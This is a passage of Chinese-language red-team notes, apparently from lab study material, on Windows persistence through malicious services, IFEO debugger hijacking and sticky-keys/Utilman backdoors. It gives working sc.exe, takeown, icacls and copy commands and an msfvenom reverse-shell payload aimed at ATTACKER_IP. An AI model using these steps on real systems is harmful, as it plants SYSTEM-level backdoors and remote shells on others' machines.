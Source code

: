##### 4. 服务 (Services)

- **原理**: 创建或修改 Windows 服务，配置其可执行文件路径指向恶意程序，并设置服务为自动启动。服务通常以较高权限（如 SYSTEM）运行。
- **Windows**:
    - **A. 创建新服务**:
        - **命令**:
            
            Bash
            
            ```
            sc.exe create "ServiceName" binPath= "C:\path\to\payload.exe" start= auto DisplayName= "Legitimate Service Name" obj= "LocalSystem"
            sc.exe start "ServiceName"
            ```
            
            (注意 `binPath=` 和 `start=` 等号后的空格，`obj=` 指定运行账户)
        - **服务兼容的可执行文件**: 使用 `msfvenom -f exe-service` 生成的 payload。
            
            Bash
            
            ```
            msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
            sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
            ```
            
    - **B. 修改现有服务**:
        - **原理**: 重用现有（尤其是已禁用或不常用的）服务，以避免创建新服务被监控发现。
        - **步骤**:
            1. 查询服务列表: `sc.exe query state=all`
            2. 查询特定服务配置: `sc.exe qc <ServiceName>`
            3. 修改服务配置 (binPath, 启动类型, 运行账户):
                
                Bash
                
                ```
                sc.exe config <ExistingService> binPath= "C:\path\to\payload.exe" start= auto obj= "LocalSystem"
                ```
                

##### 5. 映像劫持与辅助功能后门 (Image File Execution Options - IFEO & Accessibility Features)

- **A. IFEO (Debugger)**:
    - **原理**: 利用注册表键 `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<process_name.exe>`。在此键下创建一个名为 `Debugger` 的字符串值，并将其数据设置为恶意程序的路径。当 `<process_name.exe>` 启动时，系统会先启动指定的 "Debugger"。
    - **优点**: 可以劫持系统自带程序，触发方式隐蔽。
    - **示例**: 劫持 `sethc.exe` (粘滞键), `Magnify.exe` (放大镜), `osk.exe` (屏幕键盘), `Utilman.exe` (轻松访问)。
- **B. 替换辅助功能程序 (如粘滞键 sethc.exe, Utilman.exe)**:
    - **原理**: 直接用 `cmd.exe` 或其他 payload 替换位于 `C:\Windows\System32\` 下的辅助功能程序（如 `sethc.exe`, `Utilman.exe`）。这些程序可以在登录屏幕通过特定快捷键（如按5次Shift激活 `sethc.exe`）或界面按钮以 SYSTEM 权限触发。
    - **步骤 (以 sethc.exe 为例)**:
        1. 获取文件所有权: `takeown /f c:\Windows\System32\sethc.exe`
        2. 授予修改权限: `icacls C:\Windows\System32\sethc.exe /grant Administrator:F`
        3. 复制 `cmd.exe` 替换原文件: `copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe`
    - **触发**: 在登录界面按5次Shift (for sethc) 或点击轻松访问按钮 (for Utilman)。
